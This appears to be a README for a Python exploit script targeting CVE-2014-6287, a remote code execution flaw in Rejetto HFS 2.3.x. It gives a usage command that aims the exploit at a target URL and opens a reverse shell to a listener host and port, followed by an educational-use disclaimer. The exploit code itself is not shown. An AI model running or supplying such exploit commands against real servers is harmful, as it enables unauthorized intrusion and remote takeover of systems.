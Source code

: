 # CVE-2014-6287 Rejetto HFS 2.3.x

A python3 script for the CVE-2014-6287 Rejetto HFS RCE exploit in order get a reverse shell.

## Getting Started

### Executing program

* With python3
```
python3 hfs.py -t http://hfssite.com -lhost 127.0.0.1 -lport 9001
```

## Help

For help menu:
```
python3 hfs.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
